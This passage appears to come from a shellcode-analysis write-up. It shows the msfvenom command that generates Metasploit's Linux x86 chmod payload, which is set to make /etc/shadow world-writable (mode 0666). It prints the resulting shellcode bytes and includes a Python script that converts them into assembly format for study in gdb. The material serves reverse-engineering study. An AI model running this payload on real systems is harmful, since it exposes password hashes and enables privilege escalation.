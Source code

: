 #### Choosing the longer Path
There are much easier ways of creating an executable to test the shellcode than what is shown here. Instead we could have used the C program provided, output the shellcode into a file, or piped the payload to the analysis program.  
+ The method of adding the shellcode to our own `JMP|Call|POP` Assembly program was used to gain a better grasp on the assembly concepts.  

### Settings for our MSF chmod payload
```console
root# msfvenom --payload linux/x86/chmod --list-options
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
```

## Preparing the Shellcode for `gdb` & `disasm` Analysis
### Generating the `chmod` Shellcode
```console
root@zed# msfvenom -p linux/x86/chmod --format python 2>/dev/null | \
> egrep "^buf " | sed -e 's/buf /sc /g'
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"
```
+ We will export the shellcode to the python format.
  -  This will allow us to add the shellcode to our python script for formatting.
+ Once we generate the correct format for our shellcode, we will add it to our `JMP|Call|POP` assembly program.
  - This will allow us to easily analyze the shellcode with `gdb` and `disasm`.

### Formatting the Shellcode for Assembly Compilation
+ We will copy the `sc` python variable generated above, and add it to our python script.
+ Typically `msfvenom` generates the shellcode in the `\x99` we see above.
+ We need the shellcode to be in the `0x99,` format.
  - Assembly requires we use the `0x99,` format for assigning a hex string to memory.

#### Our Python Script to Format the Hex Code
```python
#!/usr/bin/python
# Filename: formatHex.py
# Author:   boku
# Purpose:  A python script that converts the '\x' format to '0x ,'

# Add the shellcode hex here.
sc =  ""
sc += "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74"
sc += "\x63\x2f\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01"
sc += "\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80"

output = ""
print 'Encoded shellcode ...'
for x in bytearray(sc) :
        output += '0x'
        output += '%02x,' %x
print output
```
